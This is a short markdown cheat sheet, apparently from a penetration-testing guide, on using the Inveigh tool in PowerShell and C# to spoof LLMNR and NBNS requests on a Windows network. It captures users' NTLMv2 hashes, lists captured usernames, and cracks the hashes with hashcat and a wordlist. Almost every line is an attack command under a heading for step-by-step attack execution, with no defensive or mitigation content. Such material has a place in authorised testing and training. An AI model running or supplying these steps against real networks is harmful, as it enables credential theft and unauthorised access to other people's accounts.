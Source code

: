 ```yaml
---
legal-banner: true
---
```


### **RUNNING INVEIGH IN POWERSHELL**

1.  Load the Inveigh module into PowerShell:  
    `Import-Module .\Inveigh.ps1`
2.  Check the available parameters for the Invoke-Inveigh cmdlet to understand its options.  
    `(Get-Command Invoke-Inveigh).Parameters`
3.  Run Inveigh to start spoofing LLMNR and NBNS requests, with console and file output enabled.  
    `Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y`

### **USING INVEIGHZERO (C# VERSION)**

1.  Run the C# version of Inveigh:  
    `.\Inveigh.exe`
2.  Interactive Console  
    Press `ESC` to enter the interactive console.
3.  Use the following commands within the interactive console to get specific information:
4.  Get one captured NTLMv2 hash per user:  
    `GET NTLMV2UNIQUE`
5.  Get usernames and source IPs/hostnames:  
    `GET NTLMV2USERNAMES`

### **STEP-BY-STEP ATTACK EXECUTION**

1.  Start Inveigh with Default Settings:  
    `Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y`
2.  Use the console commands to check captured hashes and usernames.
3.  Captured hashes are stored in the specified output directory. By default, they are saved in `C:\Tools`.
4.  Prepare Hashes for Cracking Ensure the hashes are in a compatible format for Hashcat.
5.  Run Hashcat:  
    `hashcat -m 5600 hash_file.txt /usr/share/wordlists/rockyou.txt`